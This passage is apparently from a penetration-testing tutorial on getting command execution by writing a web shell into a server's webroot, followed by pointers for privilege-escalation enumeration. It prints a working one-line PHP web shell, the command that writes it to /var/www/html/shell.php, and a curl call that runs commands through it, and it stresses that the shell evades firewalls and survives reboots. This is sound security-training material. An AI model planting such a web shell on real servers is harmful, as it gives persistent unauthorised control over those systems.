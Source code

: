 Once we have our web shell, we need to place our web shell script into the remote host's web directory (webroot) to execute the script through the web browser. This can be through a vulnerability in an upload feature, which would allow us to write one of our shells to a file, i.e. shell.php and upload it, and then access our uploaded file to execute commands.

However, if we only have remote command execution through an exploit, we can write our shell directly to the webroot to access it over the web. So, the first step is to identify where the webroot is. The following are the default webroots for common web servers:
```bash
Apache 	/var/www/html/
Nginx 	/usr/local/nginx/html/
IIS 	c:\inetpub\wwwroot\
XAMPP 	C:\xampp\htdocs\
```

For example, if we are attacking a Linux host running Apache, we can write a PHP shell with the following command:
```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

Once we write our web shell, we can either access it through a browser or by using cURL. We can visit the shell.php page on the compromised website, and use ?cmd=id to execute the id command. Another option is to use cURL:
```bash
curl http://SERVER_IP:PORT/shell.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

A great benefit of a web shell is that it would bypass any firewall restriction in place, as it will not open a new connection on a port but run on the web port on 80 or 443, or whatever port the web application is using. Another great benefit is that if the compromised host is rebooted, the web shell would still be in place, and we can access it and get command execution without exploiting the remote host again. On the other hand, a web shell is not as interactive as reverse and bind shells are since we have to keep requesting a different URL to execute our commands. Still, in extreme cases, it is possible to code a Python script to automate this process and give us a semi-interactive web shell right within our terminal.

### Privilege Escalation

Once we gain initial access to a box, we want to thoroughly enumerate the box to find any potential vulnerabilities we can exploit to achieve a higher privilege level. We can find many checklists and cheat sheets online that have a collection of checks we can run and the commands to run these checks. One excellent resource is [HackTricks](https://book.hacktricks.xyz/), which has an excellent checklist for both Linux and Windows local privilege escalation. Another excellent repository is [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings), which also has checklists for both Linux and Windows. We must start experimenting with various commands and techniques and get familiar with them to understand multiple weaknesses that can lead to escalating our privileges.

Many of the above commands may be automatically run with a script to go through the report and look for any weaknesses. We can run many scripts to automatically enumerate the server by running common commands that return any interesting findings. Some of the common Linux enumeration scripts include [LinEnum](https://github.com/rebootuser/LinEnum) and [linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker), and for Windows include [Seatbelt](https://github.com/GhostPack/Seatbelt) and [JAWS](https://github.com/411Hall/JAWS).
